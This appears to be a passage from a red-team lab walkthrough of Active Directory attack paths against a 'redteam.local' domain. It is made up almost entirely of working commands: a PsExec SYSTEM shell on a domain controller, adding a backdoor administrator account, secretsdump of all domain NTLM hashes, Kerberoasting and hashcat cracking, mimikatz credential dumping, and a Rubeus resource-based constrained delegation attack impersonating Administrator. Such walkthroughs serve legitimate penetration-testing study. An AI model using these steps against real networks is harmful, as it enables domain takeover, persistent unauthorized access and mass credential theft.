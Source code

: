 ### Authenticate using PsExec64
```
.\PsExec64.exe \\DC01 -i -s cmd.exe
```

### Add persistence by adding new user (becomes a Domain Admin)
```
net user {NewUser} {NewUser Password} /add && net localgroup Administrators {NewUser} /add
```

### Perform secretsdump to obtain all secrets in the domain
```
sudo /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc-ntlm -dc-ip 192.168.0.100 redteam.local/{NewUser}@192.168.0.100
```

# Attack Path 4
### Previous steps in Attack Path 2

## WEB03 ##
### Request TGS for each user account that has a SPN configured
```
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 192.168.0.100 -hashes :{NT hash} -outputfile kerberoast_redteam_local.txt redteam.local/TESTCOMPUTER$
```

### Crack the TGT to obtain the plaintext password of the account (with local admin privileges on WEB03$)
```
hashcat -m 13100 kerberoast_redteam_local.txt -o crack.txt /usr/share/wordlists/rockyou.txt
```

### Authenticate via RDP/PTH

## DATA03 ##
### Dump NT hash of WEB03$ account
```
.\mimikatz.exe
    sekurlsa::logonpasswords
```

### Perform RBCD attack
```
.\Rubeus.exe s4u /user:WEB03$ /rc4:{NT hash} /impersonateuser:Administrator /msdsspn:CIFS/DATA03 /ptt
```
